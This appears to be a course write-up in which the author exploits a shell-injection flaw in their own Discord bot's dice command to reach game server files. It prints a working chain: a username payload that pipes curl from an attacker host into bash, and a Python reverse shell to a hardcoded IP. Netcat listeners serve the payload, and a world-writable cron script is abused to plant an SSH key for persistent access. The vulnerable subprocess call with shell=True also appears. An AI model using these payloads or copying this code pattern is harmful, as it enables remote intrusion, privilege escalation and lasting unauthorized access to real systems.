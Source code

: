 # Exploiting Discord Bot Vulnerability to Gain Access to Game Server Files


---


## Introduction
I own a personal server that hosts both a game server and a Discord bot, which provides various functionalities to players, such as displaying game statistics, rolling dice, and many others.

The Discord bot is a program that continuously listens to messages in a designated chat channel and executes commands or functions depending on the message content.

During a Cybersecurity course, I discovered a vulnerability in the Discord bot’s Python code that allows remote code execution without requiring user interaction. Exploiting this flaw, combined with a misconfiguration in the file permissions of a script, I was able to gain unauthorized access to the game server’s files.




### Server Enviroment
The game server and the Discord bot are running under two different system users to enforce a basic privilege separation:

- The Discord bot runs under `user-a`.
- The game server runs under `user-b`, which owns all the game files.


### Vulnerability
The Vulnerability is a line in the code of the funcion "dice" that permits code injection by changing the username of the Discord Accounts
```python
if message.content.startswith('!dice'):
    dice = random.randint(1,6)
    username = message.author.display_name
    subprocess.run(f'python3 ./logWriter.py {username} {dice}', shell=True)  #  < Vulnerable code
    await message.channel.send(f"{username}, hai estratto: {dice}")
```
Since the code is executed in a shell, inserting a ; in the username allows the shell to treat what follows as a separate command instead of passing it as a parameter to logWriter.py.


### Misconfiguration
In addition to the code injection vulnerability, the system also presented a misconfiguration related to file permissions. The `server_start.sh` script, which is executed at system startup via a crontab entry belonging to `user-b`, was located inside `user-a`'s home directory with permissions set to `rwxrwxrwx`, allowing any user on the system to modify it.

Since this script is executed by the game server process running under `user-b`, modifying its content and then restarting the server makes it possible to execute arbitrary code with `user-b`'s privileges, ultimately granting access to the game server files.


---



## Threat model
- Attacker has access to send messages in the Discord chat monitored by the bot.
- Attacker is aware of the injection vulnerability in the bot’s username handling.


---


## Attacker Setup
The Attacker uses 2 netcat processes, one listening on 8080, the other on 8081.

#### Nat Configuration
![Nat Configuration](images/Nat_Configuration.png)


### Server process 1

```
clear
while true; do
nc -l -p 8080 -w 1 < response.txt
done
```

### Server process 2

```
clear
nc -lvnp 8081
```

In the response.txt file there is the payload that the attacker wants to execute, wich is sent as a response to http get requests to `process 1` .

---


## Exploit


The desired payload can not always be injected directly through the username due to the 32-character limit (including spaces).
To work around this limitation, a remote listener was set up to serve the full payload.  
The exploit injects a command in the username that makes the bot fetch and execute code from a remote `response.txt` file.
The username used for this injection was:

```
;curl ip-attacker:8080 | bash;
```
---

## Execution

### 1)Reverse Shell

The file `response.txt` was created with the following content to establish a reverse shell:


```
HTTP/1.1 200 OK
Content-Type: text/plain
Content-Length: 197

python3 -c
'import socket,subprocess,os;
s=socket.socket();
s.connect(("79.40.232.212",8081));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
```
This Python command creates a reverse shell:

- It opens a socket connection to `79.40.232.212` on port `8081`.
- It redirects the socket file descriptor to stdin (`0`), stdout (`1`), and stderr (`2`), effectively binding the shell’s input and output to the network connection.
- It starts an interactive `/bin/sh` shell, allowing the attacker to execute commands remotely through the established connection.

### 2)Listeners
Two listener processes were set up on the attacker machine by running the corresponding server code to serve the malicious payload and receive the reverse shell connection.

### 3)Username
The Discord username was modified to include a shell injection payload due to the vulnerability in the bot’s input handling.
The username was set to:

`;curl ip-attacker:8080 | bash;`

### 4)Triggering the Vulnerability

With the username set, the attacker can trigger the exploit by sending the command `!dice` to the bot.

---

## Post-Exploitation
Once i obtained a reberse shell, and i was able to navigate inside the user-a folder, accessing all doscord bot's files, including user-b's script `server_start.sh`

![Nat Configuration](images/Initial_Access.png)

But i did not have access rights to user-b folder, containing the game server's files
![Nat Configuration](images/Screenshot_tree.png)

---

## Privilege Escalation + Persistence

One way to gain access to the `/home/user-b` files was to modify the `server_start.sh` script. Since this script is executed by a cron job with the `@reboot` directive, any modification would be executed automatically on the next server reboot, running with `user-b`'s privileges.

However, relying on server restarts each time to execute arbitrary code would be impractical. Therefore, to gain persistent access as `user-b`, I injected a public SSH key into `user-b`'s `authorized_keys` file. This allowed me to establish an SSH connection directly as `user-b`, granting continuous access to the required files without waiting for server reboots.

First, I generated an SSH key pair using `ssh-keygen`:

```
$ ssh-keygen
Generating public/private ed25519 key pair.
Enter file in which to save the key (/home/attacker/.ssh/id_ed25519): /home/attacker/.ssh/innocent_key
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in /home/attacker/.ssh/innocent_key
Your public key has been saved in /home/attacker/.ssh/innocent_key.pub
The key fingerprint is:
SHA256:choqayqE6Q8JhczNELYiT7055YgjVS9IVNSOgiAP5XM attacker@attacker
The key's randomart image is:
+--[ED25519 256]--+
| *=o+.           |
|B+=+ ..          |
|*BBoEoo          |
|+=o+.B.          |
|+.+.= + S        |
|+o.. o =         |
|oo. . .          |
|..oo             |
|ooo.             |
+-[SHA256]--+
```
Then, I appended the generated public key to `user-b`'s `authorized_keys` by modifying `server_start.sh` as follows:

```
echo "echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGzTv8FEFTYsiVF7rOQFz/+Zme92ZgdrAvfe0KavA4xA'
>> /home/user-b/.ssh/authorized_keys" >> server_start.sh
```  
This ensured that, upon the next reboot, the server would automatically add the attacker's public key, granting SSH access as `user-b`.

---

## Server Restart

After modifying the `server_start.sh` script to include the attacker’s public SSH key, it was necessary to wait for the server to restart in order to trigger the cron job execution.
Once the server rebooted, the injected code ran with `user-b` privileges, granting persistent access to the game server files and enabling SSH login as `user-b`.
